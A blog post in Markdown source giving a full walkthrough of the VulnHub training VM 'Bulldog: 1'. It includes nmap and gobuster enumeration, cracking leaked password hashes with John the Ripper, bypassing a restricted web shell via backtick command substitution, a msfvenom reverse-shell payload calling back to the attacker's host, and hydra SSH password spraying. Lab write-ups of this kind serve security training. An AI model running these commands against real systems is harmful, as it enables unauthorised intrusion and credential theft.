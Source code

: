 ```yaml
---
layout: post
title: "Who Let the Dogs Out?"
category: Walkthrough
tags: [VulnHub, Bulldog]
comments: true
image:
  feature: bulldogs.jpg
  credit: 984943 / Pixabay
  creditlink: https://pixabay.com/en/beach-playing-bulldogs-1749854/
---
```


This post documents the complete walkthrough of Bulldog: 1, a boot2root [VM][1] created by [Nick Frichette][2] and hosted at [VulnHub][3]. If you are uncomfortable with spoilers, please stop reading now.
{: .notice}

<!--more-->

### Background
Bulldog Industries recently had its website defaced and owned by the malicious German Shepherd Hack Team. Could this mean there are more vulnerabilities to exploit? Why don't you find out? :) 

### Information Gathering

Let's kick this off with a `nmap` scan to establish the services available in the host:

```
# nmap -n -v -Pn -p- -A --reason -oN nmap.txt 192.168.36.3
...
PORT     STATE SERVICE REASON         VERSION
23/tcp   open  ssh     syn-ack ttl 64 OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 20:8b:fc:9e:d9:2e:28:22:6b:2e:0e:e3:72:c5:bb:52 (RSA)
|_  256 cd:bd:45:d8:5c:e4:8c:b6:91:e5:39:a9:66:cb:d7:98 (ECDSA)
80/tcp   open  http    syn-ack ttl 64 WSGIServer 0.1 (Python 2.7.12)
| http-methods: 
|_  Supported Methods: GET HEAD OPTIONS
|_http-server-header: WSGIServer/0.1 Python/2.7.12
|_http-title: Bulldog Industries
8080/tcp open  http    syn-ack ttl 64 WSGIServer 0.1 (Python 2.7.12)
| http-methods: 
|_  Supported Methods: GET HEAD OPTIONS
|_http-server-header: WSGIServer/0.1 Python/2.7.12
|_http-title: Bulldog Industries
```

Let's explore the web service first. This is how the site looked like as rendered by a browser.

![screenshot-1](/assets/images/posts/bulldog-walkthrough/screenshot-1.png)

The HTML source of the landing page as well as its internal link did not provide a clue on how to proceed.

### Directory/File Enumeration

Let's use `gobuster` with `common.txt` from [SecLists][4] to enumerate the site and see what we can discover.

```
# gobuster -w /usr/share/seclists/Discovery/Web_Content/common.txt -e -u http://192.168.36.3

Gobuster v1.1                OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://192.168.36.3/
[+] Threads      : 10
[+] Wordlist     : /usr/share/seclists/Discovery/Web_Content/common.txt
[+] Status codes : 204,301,302,307,200
[+] Expanded     : true
=====================================================
http://192.168.36.3/admin (Status: 301)
http://192.168.36.3/dev (Status: 301)
http://192.168.36.3/robots.txt (Status: 200)
=====================================================
```

The `robots.txt` probably doesn't conform to specifications or it'll will appear in the `nmap` scan. Now, I've two more new directories: `admin` and `dev`.

### Under Development

This page contained interesting information. There's a link to `/dev/shell`, purportedly a web shell. Under the hood in the HTML source, there were SHA1 password hashes of members from the development team.

![screenshot-2](/assets/images/posts/bulldog-walkthrough/screenshot-2.png)

Let's clean up the hashes and submit to John the Ripper for offline cracking.

```
# curl -s 192.168.36.3/dev/ | sed '49,55!d' | awk -F': ' '{ print $2 }' | sed -r -e 's/(<br>)+<!--/:/' -e 's/-->/:::::/' > hashes.txt && john --format=raw-sha1 --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
...
nick@bulldogindustries.com:bulldog:::::
sarah@bulldogindustries.com:bulldoglover:::::
```

Thank goodness authentication is required to use the web shell.

![screenshot-3](/assets/images/posts/bulldog-walkthrough/screenshot-3.png)

### Django Site Administration

Let's use one of the credentials (`nick:bulldog`) and see if we can authenticate with the server in order to use the web shell.

![screenshot-4](/assets/images/posts/bulldog-walkthrough/screenshot-4.png)

![screenshot-5](/assets/images/posts/bulldog-walkthrough/screenshot-5.png)

We see that a session with the site has been established. Now, are we able to use the web shell by going to `/dev/shell`?

![screenshot-6](/assets/images/posts/bulldog-walkthrough/screenshot-6.png)

Sweet. However, it appeared that only certain commands were allowed.

### Command Substitution

One of my favorite features in `bash` is [command substitution][5] using backtick (`).

> "Bash performs the expansion by executing command in a subshell environment and replacing the command substitution with the standard output of the command, with any trailing newlines deleted."

![screenshot-7](/assets/images/posts/bulldog-walkthrough/screenshot-7.png)

### Low Privilege Shell

Let's transfer (using `wget`) a single-stage reverse shell payload and then run a reverse shell back to me. I can do that with `msfvenom` and Metasploit multi-handler.

```
# msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.36.4 LPORT=443 -f elf -o bulldog
```

![screenshot-8](/assets/images/posts/bulldog-walkthrough/screenshot-8.png)

![screenshot-9](/assets/images/posts/bulldog-walkthrough/screenshot-9.png)

![screenshot-10](/assets/images/posts/bulldog-walkthrough/screenshot-10.png)

Boom. A low-privilege shell appeared but let's spawn a pseudo-TTY for better output control.

![screenshot-11](/assets/images/posts/bulldog-walkthrough/screenshot-11.png)

### Privilege Escalation

During enumeration, I found two users: `django` and `bulldogadmin`. They were able to `sudo` as `root`. Unfortunately, I don't have their passwords.

![screenshot-12](/assets/images/posts/bulldog-walkthrough/screenshot-12.png)

![screenshot-13](/assets/images/posts/bulldog-walkthrough/screenshot-13.png)

![screenshot-14](/assets/images/posts/bulldog-walkthrough/screenshot-14.png)

Noticed `.hiddenadmindirectory` in the home directory of `bulldogadmin`?

![screenshot-15](/assets/images/posts/bulldog-walkthrough/screenshot-15.png)

![screenshot-16](/assets/images/posts/bulldog-walkthrough/screenshot-16.png)

![screenshot-17](/assets/images/posts/bulldog-walkthrough/screenshot-17.png)

Seemed like reverse engineering the ELF binary is my ticket to `root`.

### What the ELF?

The first thing to do in reverse engineering is to look for interesting strings and that's exactly what I did.

![screenshot-18](/assets/images/posts/bulldog-walkthrough/screenshot-18.png)

If you look past the "`H`", you'll see "`SUPERultimatePASSWORDyouCANTget`". I'll hit the jackpot if this is the password belonging to any of the users since they can all `sudo` to `root`. Let's find out with `hydra`.

```
# cat users.txt
bulldogadmin
django
root

# hydra -L users.txt -p SUPERultimatePASSWORDyouCANTget -s 23 ssh://192.168.36.3
[23][ssh] host: 192.168.36.3   login: django   password: SUPERultimatePASSWORDyouCANTget
1 of 1 target successfully completed, 1 valid password found
```

![screenshot-19](/assets/images/posts/bulldog-walkthrough/screenshot-19.png)

It's done.

![screenshot-20](/assets/images/posts/bulldog-walkthrough/screenshot-20.png)

:dancer:

### Afterthought

If I have to guess, I'll say the other way to get root is perhaps through the Dirty CoW exploit as hinted in the notice page.

![screenshot-21](/assets/images/posts/bulldog-walkthrough/screenshot-21.png)

Well, to an attacker, a shell is a shell is a shell. Period. :smiling_imp:

[1]: https://www.vulnhub.com/entry/bulldog-1,211/
[2]: https://twitter.com/@frichette_n
[3]: https://www.vulnhub.com
[4]: https://github.com/danielmiessler/SecLists
[5]: https://www.gnu.org/s/bash/manual/html_node/Command-Substitution.html
